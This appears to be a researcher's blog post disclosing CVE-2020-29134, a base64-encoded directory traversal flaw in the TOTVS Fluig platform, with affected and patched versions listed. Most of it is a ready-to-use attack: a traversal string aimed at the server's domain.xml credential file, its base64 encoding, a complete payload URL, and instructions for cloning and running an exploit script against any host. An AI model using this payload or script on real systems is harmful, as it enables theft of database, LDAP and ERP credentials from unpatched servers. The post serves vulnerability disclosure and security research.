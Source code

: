 ```yaml
---
layout: post
title:  "CVE-2020–29134 Totvs Fluig Platform"
date:   2021-03-04 15:01:00
cover: /blog/assets/images/cover.gif
categories: CVE
---
```


#### Totvs Fluig Platform
     
Fluig is the productivity and collaboration platform that integrates with the ERP system,
and your company’s other systems to revolutionize the way you and your team work.
 
#### CVE-2020-29134
     
TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
When exploited, this vulnerability allows the reading of sensitive XML files,
which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
     
#### Versions affecteds 

<== Fluig Lake 1.7.0
<== Fluig 1.6.5
<== Fluig 1.6.4

#### Patched versions

Fluig Lake 1.7.0-210303 (Patched)
Fluig 1.6.5-210308 (Patched)
Fluig 1.6.4-210308 (Patched)

# Building Payload

![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)

#### Attack Vector

http://fluig.host.com/volume/stream/Rmx1aWc=/

#### Path traversal plain text

?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml

#### Path traversal encoded base64
     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
     
#### Payload 

http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=

#### Exploit-DB reference
https://www.exploit-db.com/exploits/49622

     
#### Clone Repository

git clone https://github.com/lucxssouza/CVE-2020-29134.git
cd CVE-2020-29134
chmod +x xfluig.sh

#### Usage

Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)

Ex2: ./xfluig.sh http://fluig.host.com:PORT
